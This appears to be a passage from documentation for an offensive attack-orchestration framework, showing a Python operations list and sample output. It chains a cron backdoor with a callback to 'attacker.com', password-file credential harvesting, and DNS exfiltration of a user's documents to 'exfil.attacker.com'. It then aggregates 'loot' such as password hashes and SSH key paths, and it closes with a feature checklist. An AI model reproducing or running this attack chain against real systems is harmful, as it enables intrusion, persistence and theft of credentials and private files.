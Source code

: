 ```python
        "tool": CronBackdoor(),
        "config": {"target": "10.0.0.5", "callback": "attacker.com"},
        "dependencies": ["privesc"]
    },
    
    # 6. CREDENTIAL HARVESTING
    {
        "id": "creds",
        "tool": PasswordFileExtraction(),
        "config": {"target": "10.0.0.5"},
        "dependencies": ["privesc"]
    },
    
    # 7. DATA EXFILTRATION
    {
        "id": "exfil",
        "tool": DataExfiltrator(),
        "config": {
            "target_dir": "/home/user/documents",
            "method": "dns",
            "dns_server": "exfil.attacker.com"
        },
        "dependencies": ["privesc", "creds"]
    }
]

# Execute orchestrated attack
results = await engine.execute_operations(ops)

# Aggregate loot
loot = engine.aggregate_loot()
"""
Output:
{
    "credentials": ["root:hash123", "user:hash456"],
    "ssh_keys": ["/root/.ssh/id_rsa"],
    "sensitive_files": ["secrets.txt", "passwords.xlsx"],
    "network_map": {...},
    "total_value": 8.7  # Risk-weighted score
}
"""
```

**Execution Flow**:
1. ✅ Topological sort respects dependencies
2. ✅ Auto-retry on transient failures (exponential backoff)
3. ✅ Parallel execution where possible
4. ✅ Real-time status updates
5. ✅ Cleanup on abort/completion

---
